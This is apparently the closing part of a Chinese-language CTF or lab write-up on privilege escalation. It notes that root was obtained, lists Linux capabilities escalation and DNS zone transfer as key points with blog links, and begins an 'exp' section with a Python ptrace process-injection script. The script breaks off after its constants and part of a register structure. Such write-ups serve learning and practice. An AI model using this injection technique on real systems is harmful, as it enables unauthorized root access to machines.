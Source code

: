 成功获取 root 权限

## 知识点

-   Capabilitie 提权
    
    [Linux 提权之：利用 capabilities 提权 - f\_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16026088.html)
    
-   DNS 主从复制 + 区域传送
    
    **DNS 在区域传输的时候使用 TCP 协议，其他时候使用 UDP 协议**
    
    DNS 区域传送有两种方式：
    
    -   axfr：完全区域传送
        
    -   ixfr：增量区域传送
        
    
    [DNS 主从复制及区域传送 - 风住 - 博客园 (cnblogs.com)](https://www.cnblogs.com/whych/p/9103161.html)
    

## exp

```bash
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
```